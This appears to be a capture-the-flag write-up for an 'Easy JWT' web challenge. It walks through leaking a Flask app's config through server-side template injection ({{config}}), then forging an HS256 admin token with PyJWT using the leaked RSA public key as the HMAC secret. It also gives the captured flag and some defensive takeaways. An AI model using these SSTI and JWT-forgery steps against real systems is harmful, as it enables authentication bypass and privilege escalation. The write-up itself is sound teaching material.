


# 🧩 Challenge: Easy JWT


---

## Description

A web application provides authentication using **JWT (JSON Web Tokens)**. The goal is to access a restricted endpoint and retrieve the flag.

We were given:

- URL of: **http://206.189.34.228:8084**
- Zip file that contains



---


## Initial Analysis

After reviewing the application (including provided source code), two critical vulnerabilities were identified:

---

### ⚠️ 1. Server-Side Template Injection (SSTI)

Endpoint:

```text id="jwt1"
/memo?msg=<input>
```

* Uses `render_template_string`
* Input filter: `^[a-zA-Z{}]*$`
* Still allows `{{ }}` → enough for SSTI

---

### ⚠️ 2. JWT Algorithm Confusion

* Accepts both **RS256** and **HS256**
* Uses **public key** for verification in all cases
* If switched to HS256:

  > Public key is treated as **HMAC secret**

---

## Exploitation

### Step 1: Leak Public Key (SSTI)

Payload:

```text id="jwt2"
http://206.189.34.228:8084/memo?msg={{config}}
```

---

## Leaked Config

  

> *(Contains JWT_PUBLIC_KEY)*

---

### Step 2: Forge Malicious JWT

We craft a token where:

* `sub = "adminonlyaccess"`
* Algorithm = **HS256**
* Secret = **Leaked Public Key**

---

### Python Exploit

```python id="jwt3"
import jwt  # version 0.4.3

public_key = """-----BEGIN PUBLIC KEY-----
...
-----END PUBLIC KEY-----"""

payload = {"sub": "adminonlyaccess"}

token = jwt.encode(payload, public_key, algorithm="HS256")
print(token)
```

---

### Step 3: Access Protected Endpoint

Send request with header:

```http id="jwt4"
Authorization: Bearer <your_token>
```

---

## Exploit Result


---

## Final Flag

```text id="jwtflag"
ictff8{jwt_4ll_th3_way}
```

---

## Tools Used

* 🐍 Python
* 📦 PyJWT (v0.4.3)
* 🌐 Web Browser

---

## Skills Developed

* Exploiting SSTI in Flask
* JWT algorithm confusion attacks
* Token forging and privilege escalation
* Understanding cryptographic misuse

---

## Key Takeaways

* Never allow user input in template rendering
* Always enforce strict JWT algorithms
* Public keys must NEVER be used as HMAC secrets
* Old libraries (like PyJWT 0.4.3) are dangerous

---
